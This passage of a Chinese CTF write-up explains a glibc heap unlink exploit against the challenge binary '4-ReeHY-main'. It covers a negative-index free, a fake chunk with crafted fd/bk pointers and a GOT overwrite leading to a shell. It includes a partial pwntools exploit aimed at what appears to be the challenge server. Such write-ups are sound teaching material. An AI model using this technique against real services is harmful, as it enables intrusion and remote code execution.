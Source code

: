 我们edit申请的这个堆，构造payload，修改第一个堆的大小信息为0x200，这样我们在edit第一个堆时，就能溢出了

那么接下来，就是构造假的堆，来触发unlink了。

Chunk1的prev_size和size也是关键
```
#define prev_chunk(p) ((mchunkptr)( ((char*)(p)) - ((p)->prev_size) ))  
```
Chunk1的地址减去prev_size就是chunk0,还有就是size的最后1个bit为0，代表前一个块chunk0处于空闲状态

实际上，真正的chunk0是chunk1-0x110，因为chunk0也有prev_size和size字段，我们这里构造假的空闲chunk0’，并且chunk1的prev_size为0x100，让系统误以为chunk0是在chunk1-0x100处开始的，这就骗过了系统。

至于那个假的chunk的fd和bk，它的值关键，既要绕过检测，也要达到我们的目的。这里有一个公式，假如，被unlink的块P指针的地址为Paddr，那么设置fd=Paddr – 0x18，设置bk = Paddr – 0x10，根据chunk的数据结构可以很容易推出，最终导致P的指针指向了Paddr – 0x18

那么接下来，我们就可以修改数组里保存的4个堆指针了，让它们指向一些关键的地方。

然后再分别edit(0,xx),edit(1,xxx),edit(2,xxx),edit(3,xxxx)，修改关键地方的数据。比如修改got表。最终getshell。

exp:
```python
from pwn import *  
from LibcSearcher import *  
  
context.log_level = 'debug'  
#sh = process('./4-ReeHY-main')  
#elf = ELF('./4-ReeHY-main')  
#libc = ELF('/ctflibc.so.6')  
  
sh = remote("61.147.171.105",65363)  
  
def welcome():  
   sh.sendlineafter('$','seaase')  
  
def create(size,index,content):  
   sh.sendlineafter('$','1')  
   sh.sendlineafter('Input size\n',str(size))  
   sh.sendlineafter('Input cun\n',str(index))  
   sh.sendafter('Input content\n',content)  
  
def delete(index):  
   sh.sendlineafter('$','2')  
   sh.sendlineafter('Chose one to dele\n',str(index))  
  
def edit(index,content):  
   sh.sendlineafter('$','3')  
   sh.sendlineafter('Chose one to edit\n',str(index))  
   sh.sendafter('Input the content\n',content)  
  
#处理开始  
welcome()  
#先创建两个0x100的堆(不要太大，也不要太小,这样使用unsorted bin)  
create(0x100,0,b'a'*0x100)  
create(0x100,1,b'b'*0x100)  
  
#delete功能没有检查下标越界,delete(-2)就是释放记录4个cun大小的那个堆空间  
delete(-2)  
  
payload = p32(0x200) + p32(0x100)  
#根据堆fastbin的特性，新申请的空间位于刚刚释放的那个小内存处,将覆盖原来的那个内容，相当于qword_6020C0[0] = 0x200，  
#这样功能3 read的时候就可以溢出堆(本来只读取那么多，现在可以多读取0x100字节)  
create(0x14,2,payload)  
  
#现在我们要在第一个堆里构造一个假的堆结构了  
# prev_size        size 末尾的1标志前一个块不空闲  
payload = p64(0) + p64(0x101)  
```